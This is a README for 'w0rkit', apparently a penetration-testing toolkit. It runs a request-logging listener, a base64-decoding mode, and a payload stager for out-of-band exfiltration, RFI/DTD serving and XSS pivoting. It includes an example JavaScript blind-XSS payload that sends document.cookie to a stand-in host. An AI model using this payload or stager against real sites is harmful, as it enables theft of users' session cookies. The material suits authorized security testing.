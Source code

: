 # w0rkit

A small toolkit containing response handling and parsing solutions that come in handy during PT/BH.

Disclaimer: Pls no evil :(

## Installation

1. `git clone ...`

2. `poetry install`

Done :-)

## Usage

Currently supports 2 modes. (`simple` and `b64d`).

### Simple
Just logs request source, headers and parameters. GET only.

`w0rkit simple -l [listen_address] -p [listen_port]`

So with `-l 127.0.0.1` and `-p 80`:
```
$ curl "http://localhost/?query1=foo&query2=bar&something=somethingelse"
OK
```

Result:

![Result](img/simple.png)

### b64d
Fetches a `magic_param` from the GET query parameters, base64decodes it and removes url encoding.

`w0rkit b64d -l [listen_address] -p [listen_port] -m [magic_param]`
`-m` is optional and will default to `?q=`

So with `-l 127.0.0.1`, `-p 80` and `-m decodeme`:

```
$ curl "http://localhost/?decodeme=JTNDaHRtbCUzRSUwQSUzQ2hlYWQlM0UlMEElM0N0aXRsZSUzRU9oJTIwd293JTJDJTIwc28lMjByZWFkYWJsZSUzQy90aXRsZSUzRSUwQSUzQy9oZWFkJTNFJTBBJTNDYm9keSUzRSUwQSUzQy9ib2R5JTNFJTBBJTNDL2h0bWwlM0U%3D%3D"
OK
```

Result:

![Result](img/b64d.png)


### Stager
All apps also have a stager route, as of writing it isn't configurable and reads directly out of `w0rkit/web/static/payloads/`
The stager can be used in a lot of different attacks. This is a safer replacement-to-be for always running `python3 -m http.server` :-)

An Example stored (hardcoded) blind XSS/CSRF attack is currently included in the stager.
When running the code:

```javascript
// This is just an example payload that you could serve

async function runPayload(){
    let result = await fetch(`http://back-to-our-host.local/?q=${btoa(escape(document.cookie))}`)
}

runPayload()
```
So by visiting `http://localhost/stager/example.html` while running in `b64d` mode with `-s (--stager)` enabled:

Result:

![Result](img/stager_b64d.png)


### Useful for
* Serve Anything, like RFI or DTD Payloads(and exfiltrate easily with `b64d` in OOB situations)
* XSS Pivoting
* Interactive LFI (Soon™) 

Happy Hunting!
